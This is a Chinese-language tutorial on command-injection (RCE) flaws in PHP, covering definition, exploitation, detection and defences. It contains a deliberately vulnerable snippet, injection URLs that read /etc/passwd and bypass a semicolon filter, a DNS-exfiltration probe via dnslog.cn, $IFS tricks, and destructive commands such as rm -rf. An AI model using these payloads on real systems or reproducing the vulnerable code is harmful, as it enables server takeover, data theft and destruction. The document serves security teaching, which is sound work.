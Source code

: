 # 远程命令执行漏洞

## 1、概述

**定义：** 用户提交的数据被服务器处理引擎当作系统命令语句片段执行。

**分类：** Web通用漏洞

**风险等级：** 严重/高危

**危害：** 可直接控制服务器/可通过提权控制服务器

**别名：** 命令注入/RCE（Remote_Command_Execution）

## 2、漏洞原理+利用

**漏洞示例：** 

```php
<?php print system("uname -".$_GET['a']);?>
```

**漏洞利用：** 

在传入参数后面跟上命令查看passwd文件
`http://xxx.com/rce.php/?a=1 ;cat /etc/passwd`

**常见限制：** 通过限制 ； 来防御    

```php
<?php
if(strstr($_GET['a'],";")){
	die("error");
}
system("uname-".$_GET['a']);
?>
```

**绕过 ：** 管道符/and符`&(%26)`绕过

`http://xxx.com/rce.php/?a=1 | cat /etc/passwd`

`http://xxx.com/rce.php/?a=1%20%26%20cat /etc/passwd`

## 3、漏洞挖掘

**常见位置：** 参数值、Cookie值、X-Forwarded-For、Referer、User-Agent、Host。

> 理论上，命令注入点（注点）存在于HTTP请求的任何位置。

**有回显的命令注入判断：** 

- 通过读取系统中已存在的文件判断 `cat /etc/passwd`
- 使用一些基础命令`whoami`,`ls`......

**无回显命令注入判断：**

- 通过在web目录写入文件然后再访问， 例如： `echo ‘test’ > ‘/var/www/html/1.txt’`
- 使用curl 、DNS解析，例如：`ping ‘whoami’.dnslog.cn`
- SLEEP感知 (SLEEP 3)
- 反弹shell
- reboot
- rm -rf （慎用）

> Tips：优先使用$(xxx) ， 因为在执行过程中其优先级较高。另外 $IFS 相当于Linux shell下的空
> 格字符，例如 cat$IFS/etc/passwd

## 4、漏洞防御

`curl "http://www.aaa.cn/zh/"`

> curl ----命令
>
> “http://www.aaa.cn/zh/” ----参数

**方法一：** 使用硬编码

> 将参数固定，避免直接读取用户提交数据。

**方法二：** 如命令/代码确实需要动态调整，可将内容固定为一个选择列表

> 例如： 1 whoami  2 ipconfig  3 ls 

然后限定用户提交参数为整型（intval强制转换），根据对应关系执行命令/代码具体内容。

**方法三：** 对于内容不固定的可变参数，应当进行严格过滤，过滤方法可参考SQL注入防护策略，将两端
使用引号闭合，然后对所有内容进行转意义。

**方法四：** 禁止可变命令

## 5、实验

对应web实验4
